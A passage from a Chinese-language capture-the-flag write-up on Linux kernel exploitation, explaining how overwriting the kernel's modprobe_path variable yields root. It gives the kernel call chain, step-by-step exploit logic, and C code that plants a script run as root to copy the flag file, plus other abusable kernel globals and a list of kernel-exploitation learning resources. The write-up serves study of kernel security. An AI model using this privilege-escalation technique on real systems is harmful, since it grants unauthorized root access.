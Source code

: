 #### Solution-3: Change modprobe_path

篡改全局变量 `modprobe_path` 的提权手段在没有开启 `CONFIG_STATIC_USERMODEHELPER` 的内核上是非常方便好用的。其中 `modprobe` 作为安装 / 卸载内核模块的程序，路径存在全局变量 `modprobe_path` 中，默认值是 `/sbin/modprobe`。当系统尝试运行一个魔数不存在的文件时，内核就会经过如下调用链：

```bash
entry_SYSCALL_64()
    sys_execve()
        do_execve()
            do_execveat_common()
                bprm_execve()
                    exec_binprm()
                        search_binary_handler()
                            __request_module()
                                call_modprobe()
```

进入 [`call_modprobe` 函数](https://elixir.bootlin.com/linux/v6.11.4/source/kernel/module/kmod.c#L72) 中并以 root 权限运行 `modprobe_path` 程序。

回到题目，原题是开了 `CONFIG_STATIC_USERMODEHELPER` 的，想必出题人也不想被这种全局变量修改秒掉，可以重新编译一份来打。具体利用流程如下：

1. 根据 `__request_module` 定位到 `modprobe_path` 地址偏移为 `0xFFFFFFFF836774E0`；
2. 利用漏洞将 `/tmp/a` 写入上述内存空间；
3. 完成非法魔数程序和利用程序的构造，并赋予执行权限；
4. 最后执行非法魔数程序，此时系统会以 root 权限运行 `/tmp/a`，获得 flag：

```c
system("echo -ne \"\\xff\\xff\\xff\\xff\" > /tmp/dummy");
system("echo \"#!/bin/sh\" >> /tmp/a");
system("echo \"cp /flag /tmp/flag && chmod a+r /tmp/flag\" >> /tmp/a");
system("chmod +x /tmp/dummy");
system("chmod +x /tmp/a");
execve("/tmp/dummy", NULL, NULL);
system("cat /tmp/flag");
```

类似的全局变量还有很多，例如 `poweroff_cmd`, `uevent_helper`, `ocfs2_hb_ctl_path`, `nfs_cache_getent_prog`, `cltrack_prog` 等，可以到源码中找到对应的利用方法。

---

# 一些参考资料和例题

- 我的 [github star 列表](https://github.com/stars/AvavaAYA/lists/kernel)，会持续更新
- [how2keap](https://github.com/gfelber/how2keap) - Kernel Heap 相关利用
- [kernelpwn](https://github.com/smallkirby/kernelpwn) - 学习资料
- [linux-kernel-exploitation](https://github.com/xairy/linux-kernel-exploitation) - 学习资料汇总，包含文章、CVE、例题等
- [kernel-exploit-factory](https://github.com/bsauce/kernel-exploit-factory) - 值得学习的 CVE 汇总
- [kernel-security-learning](https://github.com/bsauce/kernel-security-learning) - 文章、CVE、例题汇总
- ~~[How2Kernel](https://github.com/R3x/How2Kernel) - 古早内核学习资料，~~ 已过时

---
